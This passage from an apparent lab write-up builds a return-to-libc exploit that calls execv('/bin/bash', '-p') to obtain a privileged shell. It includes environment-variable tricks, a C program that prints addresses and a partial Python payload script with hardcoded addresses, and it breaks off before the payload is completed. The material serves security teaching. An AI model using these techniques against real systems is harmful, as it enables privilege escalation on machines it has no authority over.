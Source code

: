 The stack will be built as:

```
Address of argv[] (where argv[] is the pointer to the argv[0] address, which is followed sequentially by argv[1] and argv[2])
Address of the /bin/bash string
Address of the exit() function
Address of the execv() function (this will overwrite the original return address)
```

We already know the address of `execv()` and `exit()`. To get the addresses of `-p` and `/bin/bash`, we can export them as environment variables and write a program that will print out the memory addresses of the environment variables.

```bash
export MYSHELL=-p
export SHELL=/bin/bash
```

```c
#include <stdio.h>
#include <stdlib.h>

void main(){
    /* -p */
    char*env1 =  getenv("MYSHELL");
    if (env1){
        printf("-p --> %x\n", (unsigned int)env1);
    }
    
    /* /bin/bash */
    char*env2 =  getenv("SHELL");
    if (env2){
        printf("/bin/bash --> %x\n", (unsigned int)env2);
    }
}
```

![task-4-a](https://github.com/iukadike/blog/assets/58455326/953fed06-644b-43b1-bd19-06541d2a55e6)


Now we know the addresses of `/bin/bash` and `-p`. All that's left is to build our exploit code.

To determine where to place the addresses we obtained, we need to know the offset of the original return address from the start of the buffer. This can be determined by "($ebp - &buffer) + 4". We can recompile the binary with the debugging flag turned on (`gcc -g`) and obtain the values of ebp and buffer. However, the vulnerable program already prints these values for us.

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# Record the addresses
execv_addr = 0xf7e994b0         # The address of execv()
bash_addr = 0xffffd448          # The address of "/bin/bash"
exit_addr = 0xf7e04f80          # The address of exit()
argv1_addr = 0xffffd45a         # The address of "-p" argument
input_main_addr = 0xffffcdf0    # The address of the input in main()

#################################################
# argv[] needs to consist of the following:     #
# Address of argv[0]  = address of "/bin/bash"  #
# Address of argv[1]  = address of "-p"         #
# Address of argv[2]  = NULL                    #
#################################################
```